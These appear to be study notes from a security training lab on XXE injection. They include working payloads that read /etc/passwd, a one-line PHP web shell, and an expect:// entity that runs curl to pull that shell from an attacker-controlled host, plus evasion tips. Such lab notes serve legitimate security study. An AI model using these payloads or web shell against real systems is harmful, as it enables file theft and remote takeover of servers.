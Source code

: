 # 

```
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

# Reading Sensitive Files
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

# XXE TO RCE

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:

```
powen@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
powen@htb[/htb]$ sudo python3 -m http.server 80
```

```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
> We replaced all spaces in the above XML code with $IFS, to avoid breaking the XML syntax. Furthermore, many other characters like |, >, and { may break the code, so we should avoid using them.


---

> Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an online tool. If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.


> In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.
